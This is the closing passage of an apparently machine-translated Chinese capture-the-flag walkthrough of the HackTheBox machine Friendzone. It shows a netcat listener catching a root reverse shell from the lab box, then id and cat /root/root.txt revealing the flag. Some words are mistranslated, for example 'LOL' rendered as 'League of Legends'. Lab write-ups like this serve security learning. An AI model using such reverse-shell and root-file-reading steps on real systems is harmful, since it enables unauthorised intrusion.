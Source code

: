 ![](img/881bb972c8f8424cf5bb041184d02f0d.png)

看到它从 pspy64 触发:

![](img/bbbc74b2aee4873adaf4e24c94593a0a.png)

我得到我的壳作为根。

```
➜  writeup nc -nlvp 9003
listening on [any] 9003 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.123] 52620
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
**b0e6c60b82cf96e9855ac1656a9e90c7**
```

我找到了一些证书文件，但没有深入到我可以使用它们的地方。因为我不知道钥匙的密码。英雄联盟

这就是我如何破解 Friendzone 的。我希望你能从这次演练中学到一些东西。干杯！🍺

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)